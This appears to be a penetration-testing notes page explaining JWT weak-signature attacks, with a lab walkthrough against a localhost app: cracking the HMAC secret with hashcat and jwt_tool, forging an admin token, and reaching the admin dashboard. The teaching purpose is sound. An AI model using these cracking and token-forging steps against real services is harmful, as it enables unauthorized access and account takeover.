 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Weak Signature

{% hint style="success" %}
JWT has a **weak signature** when the cryptographic algorithm used to sign the token is insecure or when the secret key is weak. This vulnerability allows attackers to forge or manipulate JWTs by exploiting predictable or easily guessable signatures. Weak signatures compromise the integrity and authenticity of the JWT, potentially leading to unauthorized access or data breaches.
{% endhint %}

> _The below example is based on TCM's_ [_Practical API Hacking_](https://academy.tcm-sec.com/p/hacking-apis) _course._

{% hint style="info" %}
_List with well-known secrets:_ [_jwt.secrets.list_](https://raw.githubusercontent.com/wallarm/jwt-secrets/master/jwt.secrets.list)_._
{% endhint %}

{% code overflow="wrap" %}
```bash
# Logging in with valid creds
$ curl -X POST http://localhost/login -H 'Content-Type: application/json' --data '{"username":"user","password":"user"}'
{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyaWQiOiJ1c2VyIiwiaWF0IjoxNzE5Mjk1MTA5fQ.aUlvUvP4XbodwpBalrS-1t70Sqx7FxQCvBrmwT8oCDM"}

# Brute forcing the secret
hashcat -a0 -m16500 eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyaWQiOiJ1c2VyIiwiaWF0IjoxNzE5Mjk1MTA5fQ.aUlvUvP4XbodwpBalrS-1t70Sqx7FxQCvBrmwT8oCDM /usr/share/wordlists/rockyou
<SNIP>
eyJ...<SNIP>...CDM:ucyxu6
<SNIP>

# We can also crack the JWT secret with jwt_tool
$ jwt_tool -C -d /usr/share/wordlists/rockyou 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRlc3QifQ==.BmzWWVFXmJsqH7K9dTxCyCopRB0HHFvCYKCfwW+8We4='

Original JWT:

[+] coffee is the CORRECT key!
You can tamper/fuzz the token contents (-T/-I) and sign it using:
python3 jwt_tool.py [options here] -S hs256 -p "coffee"
```
{% endcode %}

{% hint style="info" %}
_Hashcat signs the header and payload from the JWT using each wordlist secret and compares the resulting signature with the original one (_[_16500_](https://hashcat.net/wiki/doku.php?id=example_hashes)_)._
{% endhint %}

<figure><img src="../../../../../.gitbook/assets/jwt_weak_signature.png" alt=""><figcaption><p>Figure 1: Tampering with the JWT's <code>userid</code> claim.</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Testing the token
$ curl -i http://localhost/dashboard -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyaWQiOiJhZG1pbiIsImlhdCI6MTcxOTI5NTEwOX0.py2v7_Kqtexh4Cq8hqBdEV8wiCr8p6x9eeZFNGlKW4U'
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 45
ETag: W/"2d-bqbMS3LH08+zkhZI3cPwYShjqaE"
Date: Tue, 25 Jun 2024 06:09:39 GMT
Connection: keep-alive
Keep-Alive: timeout=5

{"message":"Welcome to your dashboard admin"}
```
{% endcode %}

We can also tamper the required claims using `jwt_tool`.

{% code overflow="wrap" %}
```bash
# Tampering with the JWT
$ jwt_tool eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyaWQiOiJ1c2VyIiwiaWF0IjoxNzE5Mjk1MTA5fQ.aUlvUvP4XbodwpBalrS-1t70Sqx7FxQCvBrmwT8oCDM -T -S hs256 -p 'ucyxu6'

Original JWT:

====================================================================
This option allows you to tamper with the header, contents and
signature of the JWT.
====================================================================

Token header values:
[1] alg = "HS256"
[2] typ = "JWT"
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0

Token payload values:
[1] userid = "user"
[2] iat = 1719295109    ==> TIMESTAMP = 2024-06-25 06:58:29 (UTC)
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[5] *UPDATE TIMESTAMPS*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 1

Current value of userid is: user
Please enter new value and hit ENTER
> admin
[1] userid = "admin"
[2] iat = 1719295109    ==> TIMESTAMP = 2024-06-25 06:58:29 (UTC)
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[5] *UPDATE TIMESTAMPS*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0
jwttool_8043cf61f00c28f7a057cdc20df41290 - Tampered token - HMAC Signing:
[+] eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyaWQiOiJhZG1pbiIsImlhdCI6MTcxOTI5NTEwOX0.py2v7_Kqtexh4Cq8hqBdEV8wiCr8p6x9eeZFNGlKW4U
```
{% endcode %}

We can also tamper the JWT's claim using the Burp's [JWT Editor](https://portswigger.net/burp/documentation/desktop/testing-workflow/session-management/jwts#editing-jwts) extension (Figure 2).

> _The below example is base on PortSwigger's_ [_JWT attacks_](https://portswigger.net/web-security/jwt) _module._

<figure><img src="../../../../../.gitbook/assets/jwt_weak_signature_1.png" alt=""><figcaption><p>Figure 2: JWT tampering with Burp's JWT Editor extension.</p></figcaption></figure>

